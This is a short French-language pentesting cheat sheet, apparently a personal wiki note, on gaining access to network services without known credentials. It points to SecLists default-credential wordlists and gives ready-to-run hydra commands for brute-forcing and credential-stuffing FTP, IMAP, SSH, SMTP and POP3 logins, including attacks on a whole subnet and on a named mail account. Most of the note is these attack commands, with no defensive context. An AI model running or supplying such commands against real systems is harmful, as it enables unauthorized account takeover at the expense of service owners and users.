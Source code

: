 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Sans connaitre un identifiant ou mot de passe

### Comptes par défaut ou très fréquemment utilisés

Selon le service à attaquer, on pourra utiliser hydra avec le paramètre `-C` et fournir un dictionnaire (wordlist) contenant des couples `utilisateur:mot_de_passe` séparés par un `:`

Plusieures wordlist de ce type sont disponibles dans `/usr/share/seclists/Passwords/Default-Credentials/` (notamment `ftp-betterdefaultpasslist.txt`)

### Tenter des utilisateurs et mots de passe communs

####  Liste de comptes utilisateurs

On

```
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN

# credential stuffing
hydra -C user_pass.list ssh://$TARGET_IP
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh

# bruteforce mail service password for known user
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP smtp -t 64  
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP pop3 -t 64 
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP imap -t 64 

```

Plus d'exemple d'utilisation de l'outil : [[Hydra]]
